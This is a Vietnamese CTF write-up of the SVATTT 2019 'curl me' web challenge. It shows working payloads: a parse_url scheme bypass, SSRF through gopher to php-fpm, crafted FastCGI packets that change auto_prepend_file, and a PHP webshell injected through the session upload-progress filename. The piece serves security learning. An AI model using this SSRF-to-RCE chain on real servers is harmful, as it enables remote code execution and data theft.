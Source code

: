 Xin chào, mình là `Vịnh (@vinhjaxt)`!

Vừa qua (03/11/2019), mình có tham gia cuộc thi SVATTT 2019 vòng sơ khảo, thuộc team `KMA PeBois`.

Sau đây, mình xin phép đại diện cho team, viết writeup bài web có tiêu đề `curl me`.

# Đề bài
```
Curl me
Source code: https://drive.google.com/file/d/10fXfOHVbtth28677oQ6Xxorgq5Tv3Dik/view
URL: http://125.235.240.170/
```

# Hint
Sau khi team mình giải được, btc cho hint, team sợ vô cùng :(
```
1. gopherus
```

# Source index.php
```php
<?php
if (isset($_GET["url"])) {
    $url = $_GET["url"];
    $parse = parse_url($url);

    if (isset($parse["scheme"]) && !in_array($parse["scheme"], array("file", "gopher"))) {
        if (!isset($parse["port"]) || $parse["port"] != 9000) {
            $path = urldecode(isset($parse["path"])?$parse["path"]:"");
            if (!preg_match("/flag/i", $path)) {
                $ch = curl_init();
                curl_setopt($ch, CURLOPT_URL, $url);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
                curl_setopt($ch, CURLOPT_HEADER, false);
                $output = curl_exec($ch);
                curl_close($ch);
                die($output);
            }
        }
    }
    die("dont hack :)");
}
?>
<a href ="?url=https://pastebin.com/raw/jEwTz1cP">Curl flag</a>
```
Sau khi thấy 2 bài `curl 1` và `curl 2`, team mình nghĩ, `curl 1` sẽ phải làm cách nào đó để đọc file `/flag1` thông qua curl php.
Còn `/flag2`, muốn đọc được thì phải rce, liên quan đến php-fpm.
Hơn nữa, gần đây có cái CVE của php-fpm, chắc là cần dùng đến nó.

Với `curl 1`:
Để đọc được file `/flag1` thì ta phải bypass 2 thứ:
- parse_url với sheme được check không cho `file`, `gopher`: Cái này bypass khá đơn giản, team gửi url với scheme là `File` hay là `Gopher`
- `preg_match("/flag/i", $path)`: cái này thì coi như xong, trong suốt thời gian cuộc thi diễn ra, team mình vẫn chưa biết làm sao vượt được, sau khi kết thúc cuộc thi mới được share `File:///#/../flag1`

Với chiến lược: thôi thì đằng nào chả phải làm cái `curl 2`, làm được cái 2 rồi ăn cái 1 cũng được, team mình bắt đầu chuyển sang hướng khác.

Ban đầu, check với poc của CVE-2019-11043 (https://github.com/neex/phuip-fpizdam), không chạy.

Không sao! Chắc tác giả muốn các đội tìm hiểu sâu hơn vào cách poc hoạt động, team mình đọc blog của Orange (http://blog.orange.tw/) và improve poc: Không thành công (Sau khi kết thúc cuộc thi, mình đọc lại file cấu hình [quên tên rồi] trong thư mục /etc/nginx/snippets/ thì mới thấy nó check exists rồi, khá là không chú ý gây mất thời gian)

OK, không sao, còn nữa, port 9000, nếu mà vượt được thì chắc là hay ho =)).

Sau khi có tin nhắn `Ém flag à em =))`, mình thấy `PeBois` sắp thành `Phế Bois` rồi =)), bắt đầu fuzz lại cái parse_url hy vọng kiếm được chút đỉnh để vượt qua cơn khó khăn này.

Thật may mắn, payload `?url=Gopher:/127.0.0.1:9000`
với php:
```php
php > var_dump(parse_url("Gopher:/127.0.0.1:9000"));
array(2) {
  ["scheme"]=>
  string(6) "Gopher"
  ["path"]=>
  string(15) "/127.0.0.1:9000"
}
```
nhưng với curl:
```bash
$ curl 'Gopher:/127.0.0.1:9000' -v
*   Trying 127.0.0.1:9000...
* TCP_NODELAY set
* connect to 127.0.0.1 port 9000 failed: Connection refused
* Failed to connect to 127.0.0.1 port 9000: Connection refused
* Closing connection 0
```
Đến đây thì coi như toang (vượt được check port 9000), con đường thênh thang rộng mở mà rce vào thôi.

Để rce, team mình có 2 phương án:
- Thực hiện giống poc của CVE-2019-11043: Cách này đòi hỏi race condition quyết liệt
- Tham khảo poc CVE-2019-11043, thực hiện php session upload injection (cái này mình không biết gọi thế nào cho đúng :((, lấy từ ý tưởng lúc chơi `balsnctf`) và php-fpm (giống với SVATTT 2018 Quals của tác giả [@haxor](https://www.facebook.com/haxor.1337.xxx))

Không chần chừ, team mình chọn cách 2:

Đề thực hiện cách này, team mình cần:
- Một session của php
- Inject shell vào session đó bằng việc upload
- Include session đó sử dụng gopher để thay đổi setting auto_prepend_file của php-fpm và gọi shell

OK! Giải quyết từng vấn đề một:
- Để có được session, team mình sử dụng gopher, thay đổi setting `session.auto_start=1` của php-fpm

Sử dụng script (https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) để gen với php-fpm params:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "session.auto_start=1"
).to_s
```
Sau khi gửi lên server, team mình có session của php `mhjuo9kbjf5fpkv0c2sk11mclo` (trả về dạng: `Set-Cookie: PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo`)

- Để inject shell vào session này, team mình thực hiện upload liên tục lên server:
```js
      {
        method: 'POST',
        url: 'http://125.235.240.170/info.php?0=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo',
        headers: {
          Connection: 'close',
          Cookie: 'PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo'
        },
        formData: {
          PHP_SESSION_UPLOAD_PROGRESS: 'XXXXXvinhjaxtXXXXX',
          f: {
            value: `A`.repeat(100 * 1024),
            options: {
              filename: `<?php $v=chr(47).'getflag'; echo \`$v\`; ?>`, // Đọc flag2 nè
              contentType: 'image/jpeg'
            }
          }
        }
      }
```
- Để thực thi shell, team mình gửi request thay đổi `auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo` của php-fpm

Thực hiện script fastcgipacket.rb với custom:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo"
).to_s
```
Sau đó gửi nhiều lần payload này lên server bằng cách chạy nhiều lần script sau (bằng tay :p):
```php
<?php
$out = "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x00\x93\x03\x00\x0e\x03\x52\x45\x51\x55\x45\x53\x54\x5f\x4d\x45\x54\x48\x4f\x44\x47\x45\x54\x0f\x17\x53\x43\x52\x49\x50\x54\x5f\x46\x49\x4c\x45\x4e\x41\x4d\x45\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x69\x6e\x64\x65\x78\x2e\x70\x68\x70\x0f\x47\x50\x48\x50\x5f\x41\x44\x4d\x49\x4e\x5f\x56\x41\x4c\x55\x45\x61\x75\x74\x6f\x5f\x70\x72\x65\x70\x65\x6e\x64\x5f\x66\x69\x6c\x65\x3d\x2f\x76\x61\x72\x2f\x6c\x69\x62\x2f\x70\x68\x70\x2f\x73\x65\x73\x73\x69\x6f\x6e\x73\x2f\x73\x65\x73\x73\x5f\x6d\x68\x6a\x75\x6f\x39\x6b\x62\x6a\x66\x35\x66\x70\x6b\x76\x30\x63\x32\x73\x6b\x31\x31\x6d\x63\x6c\x6f\x00\x00\x00\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00";
echo PHP_EOL,file_get_contents("http://125.235.240.170/index.php?url=".rawurlencode("Gopher:/127.0.0.1:9000/_".rawurlencode($out))), PHP_EOL;
```
Thật may mắn, trong một lần gửi lên, server trả về cho mình:
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-13-44.png)

Và một chút thay đổi để lấy được `/flag1`
```js
filename: `<?php $v=chr(47).'flag1'; echo file_get_contents($v); ?>`,
```
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-14-44.png)

OK, vậy là xong. Team mình khá vui và gỡ bỏ một số áp lực.
Cảm ơn các bạn/anh/chị/em đã theo dõi writeup, cảm ơn tác giả của challenge, cảm ơn team.
Nếu có góp ý, liên hệ, trao đổi, mọi người vui lòng liên lạc qua:
- Fb: http://fb.com/i.am.Ioser
- Discord: @vinhjaxt#2733
- Twitter: @vinhjaxt

# Tham khảo thêm
- https://www.zybuluo.com/shaobaobaoer/note/1214441
- http://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
